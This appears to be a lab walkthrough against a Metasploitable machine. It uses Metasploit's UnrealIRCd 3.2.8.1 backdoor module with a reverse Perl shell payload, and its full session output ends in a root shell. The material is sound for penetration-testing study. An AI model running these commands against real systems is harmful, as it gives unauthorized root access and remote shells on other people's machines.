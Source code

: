 <pre>6667/tcp open  irc         UnrealIRCd</pre>

#### UnrealIRCD 3.2.8.1 Backdoor Command Execution

#### using metasploit framework

<pre>msf6 > search UnrealIRCd</pre>

<pre>Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/unix/irc/unreal_ircd_3281_backdoor  2010-06-12       excellent  No     UnrealIRCD 3.2.8.1 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/irc/unreal_ircd_3281_backdoor</pre>

<pre>msf6 > use 0</pre>

<pre>msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > show payloads </pre>

<pre>Compatible Payloads
===================

   #   Name                                        Disclosure Date  Rank    Check  Description
   -   ----                                        ---------------  ----    -----  -----------
   0   payload/cmd/unix/adduser                    .                normal  No     Add user with useradd
   1   payload/cmd/unix/bind_perl                  .                normal  No     Unix Command Shell, Bind TCP (via Perl)
   2   payload/cmd/unix/bind_perl_ipv6             .                normal  No     Unix Command Shell, Bind TCP (via perl) IPv6
   3   payload/cmd/unix/bind_ruby                  .                normal  No     Unix Command Shell, Bind TCP (via Ruby)
   4   payload/cmd/unix/bind_ruby_ipv6             .                normal  No     Unix Command Shell, Bind TCP (via Ruby) IPv6
   5   payload/cmd/unix/generic                    .                normal  No     Unix Command, Generic Command Execution
   6   payload/cmd/unix/reverse                    .                normal  No     Unix Command Shell, Double Reverse TCP (telnet)
   7   payload/cmd/unix/reverse_bash_telnet_ssl    .                normal  No     Unix Command Shell, Reverse TCP SSL (telnet)
   8   payload/cmd/unix/reverse_perl               .                normal  No     Unix Command Shell, Reverse TCP (via Perl)
   9   payload/cmd/unix/reverse_perl_ssl           .                normal  No     Unix Command Shell, Reverse TCP SSL (via perl)
   10  payload/cmd/unix/reverse_ruby               .                normal  No     Unix Command Shell, Reverse TCP (via Ruby)
   11  payload/cmd/unix/reverse_ruby_ssl           .                normal  No     Unix Command Shell, Reverse TCP SSL (via Ruby)
   12  payload/cmd/unix/reverse_ssl_double_telnet  .                normal  No     Unix Command Shell, Double Reverse TCP SSL (telnet)</pre>

<pre>msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set payload 8</pre>

<pre>msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > show options </pre>

<pre>Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    6667             yes       The target port (TCP)


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target</pre>


<pre>msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set rhosts A.B.C.D</pre>

<pre>msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set lhost E.F.G.H</pre>

<pre>msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > exploit</pre>

<pre>[*] Started reverse TCP handler on 192.168.161.128:4444 
[*] 192.168.161.131:6667 - Connected to 192.168.161.131:6667...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
[*] 192.168.161.131:6667 - Sending backdoor command...
[*] Command shell session 1 opened (192.168.161.128:4444 -> 192.168.161.131:36127) at 2025-02-04 14:17:47 +0530


id
uid=0(root) gid=0(root)</pre>

